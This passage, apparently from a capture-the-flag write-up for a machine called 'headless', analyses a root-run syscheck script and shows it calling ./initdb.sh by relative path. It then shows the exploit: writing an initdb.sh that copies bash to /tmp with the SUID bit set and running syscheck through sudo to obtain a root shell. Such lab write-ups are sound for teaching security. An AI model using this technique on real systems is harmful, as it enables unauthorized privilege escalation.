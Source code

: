 ```bash
dvir@headless:~$ file /usr/bin/syscheck 
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
```

First, if the user id's its not root, exits the program:

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi
```

Second, it executes safely some commands to see the last time vmlinux was modified:

```bash
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
```

Also see the available disk space and system load average (also safely):

```bash
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
```

Finally, it checks if initdb.sh its running and if not, it runs ./initdb.sh to start it:

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

This is very dangerous since its not calling an absolute path and can execute any bash file in the current directory. I will create initdb.sh in /tmp with a instruction to copy the bash to /tmp and make it SUID. Then, I will execute `/usr/bin/syscheck` to call ./initdb.sh. 

```bash
dvir@headless:/tmp$ cd /tmp
dvir@headless:/tmp$ echo 'cp /bin/bash /tmp; chmod u+s /tmp/bash' > initdb.sh
dvir@headless:/tmp$ chmod +x initdb.sh 
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -l bash 
-rwsr-xr-x 1 root root 1265648 Jul 21 20:02 bash
```
